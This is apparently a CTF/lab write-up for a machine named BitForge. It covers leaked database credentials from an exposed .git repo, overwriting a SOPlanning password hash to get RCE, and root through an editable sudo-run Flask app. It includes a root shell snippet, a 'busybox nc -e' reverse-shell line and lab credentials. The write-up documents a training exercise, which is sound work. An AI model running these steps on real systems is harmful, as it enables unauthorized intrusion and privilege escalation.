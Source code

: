 # BitForge \[Inter]

## Report

SOPlanning running on `plan.bitforge.lab` is vulnerable to authenticated RCE. However, default creds of `admin:admin` do not work. A git repo is also publicly exposed which gives us database credentials. Passwords are stored as a SHA1 hash. To update this and set our own custom hash, we can set a new password by reading the documentation and structure of the service which describes the function used to generate the SHA1 hash or the demo data provides a default hash value that would probably be 'admin'. Update db with this new found hash, login and get reverse shell.

Intercept creds for user 'jack' via pspy and jack can run a flask application as sudo. Edit the corresponding python file to become root.

## Cheatsheet

```
mysql --skip-ssl -h 192.168.106.186 -uBitForgeAdmin -pB1tForG3S0ftw4r3S0lutions
```

## Loot

### Enumeration

192.168.106.186

#### 80

#### bitforge.lab

login.php - Nothing

#### plan.bitforge.lab

Simple Online Planning v1.52.01

### Attack Vectors

.git exposed, retrieve database creds

{% embed url="https://github.com/theexploiters/CVE-2024-27115-Exploit" %}

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Extract default hash from fresh install, replace it with existing hash as we cannot crack it</p></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption><p>includes/class_user.inc shows how password hash is created, some char prepended and appended so normal way of creating sha-1 wont work</p></figcaption></figure></div>

### PrivEsc

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Intercept creds for user 'jack'</p></figcaption></figure>

```bash
User jack may run the following commands on bitforge:
    (root) NOPASSWD: /usr/bin/flask_password_changer

jack@BitForge:/opt/password_change_app$ cat /usr/bin/flask_password_changer
#!/bin/bash
cd /opt/password_change_app 
/usr/local/bin/flask run --host 127.0.0.1 --port 9000 --no-debug

jack@BitForge:/opt/password_change_app$ ls -la
total 24
drwxr-xr-x 4 jack jack 4096 Oct  2 06:43 .
drwxr-xr-x 4 root root 4096 Jan 16  2025 ..
-rw-rw-r-- 1 jack jack   49 Oct  2 06:43 app.py


import os
os.setuid(0)
os.system("/bin/bash -p")
OR
os.system('busybox nc -e $IP /bin/sh'
```

### Creds

#### Database

`$dbName = 'bitforge_customer_db'`

`BitForgeAdmin:B1tForG3S0ftw4r3S0lutions`

#### SOPlanning

`admin:df5b909019c9b1659e86e0d6bf8da81d6fa3499e` \[SHA-1, didn't work]

change existing hash to match default creds of `admin:admin`

#### Lateral

`jack:j4cKF0rg3@445`

### Proof
